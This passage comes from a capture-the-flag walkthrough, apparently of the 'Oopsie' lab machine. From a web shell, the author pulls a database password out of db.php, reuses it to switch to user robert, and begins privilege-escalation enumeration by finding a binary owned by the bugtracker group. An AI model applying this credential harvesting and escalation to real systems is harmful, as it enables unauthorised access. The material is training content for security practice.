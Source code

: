 
We attempt to change the system user with the `su` command to `robert` and try the password we just found, for this user, but we have no luck:

	www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
	su robert
	Password: MEGACORP_4dm1n!!
	
	su: Authentication failure

We dig into the php files one by one, and we find something interesting in the `db.php` file.

	www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
	cat db.php
	<?php
	$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
	?>


Now that we got the password we can successfully login and read the `user.txt` flag which can be found in the home directory of `robert` (which we have found previously already):

	www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
	su robert
	Password: M3g4C0rpUs3r!
	
	robert@oopsie:/var/www/html/cdn-cgi/login$ ls /home/robert/
	ls /home/robert/
	user.txt


## Privilege Escalation

Before running any privilege escalation or enumeration script, let's check the basic commands for elevating privileges like `sudo` and `id`:

	robert@oopsie:/var/www/html/cdn-cgi/login$ sudo -l
	sudo -l
	[sudo] password for robert: M3g4C0rpUs3r!
	
	Sorry, user robert may not run sudo on oopsie.
	robert@oopsie:/var/www/html/cdn-cgi/login$ id
	id
	uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)


We observe that user `robert` is part of the group `bugtracker`. Let's try to see if there is any binary within that group:
`find / -group bugtracker 2>/dev/null`

	robert@oopsie:/var/www/html/cdn-cgi/login$ find / -group bugtracker 2>/dev/null
	<cdn-cgi/login$ find / -group bugtracker 2>/dev/null
	/usr/bin/bugtracker

We found a file named `bugtracker`. We check what privileges and what type of file is it:
`ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker`

	robert@oopsie:/var/www/html/cdn-cgi/login$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
	
